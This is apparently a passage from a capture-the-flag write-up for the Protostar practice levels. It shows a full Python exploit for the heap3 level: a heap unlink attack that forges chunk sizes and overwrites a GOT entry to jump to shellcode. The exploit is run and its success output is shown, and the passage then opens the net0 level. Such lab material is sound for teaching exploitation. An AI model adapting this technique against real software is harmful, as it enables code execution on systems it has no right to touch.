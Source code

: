 Full exploit:

We have to write buffer `A`, `B` and `C`.

```
#!/usr/bin/python
buffA = 'WEDONTCARE' # unused

buffB = 'A'*16
buffB += "\x68\x64\x88\x04\x08\xc3" # shellcode
# fill buffB
buffB += 'A'*(32-len(buffB))
# overflow buffB by overwriting prev_size and size of the last chunk with -4
buffB += struct.pack('I', 0xfffffffc)*2

buffC = 'A'*4 # junk
buffC += struct.pack('I', 0x804b128-12) # puts@GOT-12
buffC += struct.pack('I', 0x804c040) # address of SHELLCODE

files = ["/tmp/A", "/tmp/B", "/tmp/C"]
buffers = [buffA, buffB, buffC]
for f_name, buf in zip(files, buffers):
        with open(f_name, 'wb') as f:
                f.write(buf)
```

We can now test our exploit by running:

```
./heap3 $(cat /tmp/A) $(cat /tmp/B) $(cat /tmp/C)
that wasn't too bad now, was it? @ 1617171713
```

Useful resources:

```
http://phrack.org/issues/57/9.html

https://airman604.medium.com/protostar-heap-3-walkthrough-56d9334bcd13
```

### Net

#### net0

This level takes a look at converting strings to little endian integers.

This level is at /opt/protostar/bin/net0

```c
#include "../common/common.c"

#define NAME "net0"
#define UID 999
#define GID 999
#define PORT 2999

void run()
{
  unsigned int i;
  unsigned int wanted;

  wanted = random();

  printf("Please send '%d' as a little endian 32bit int\n", wanted);

  if(fread(&i, sizeof(i), 1, stdin) == NULL) {
      errx(1, ":(\n");
  }
```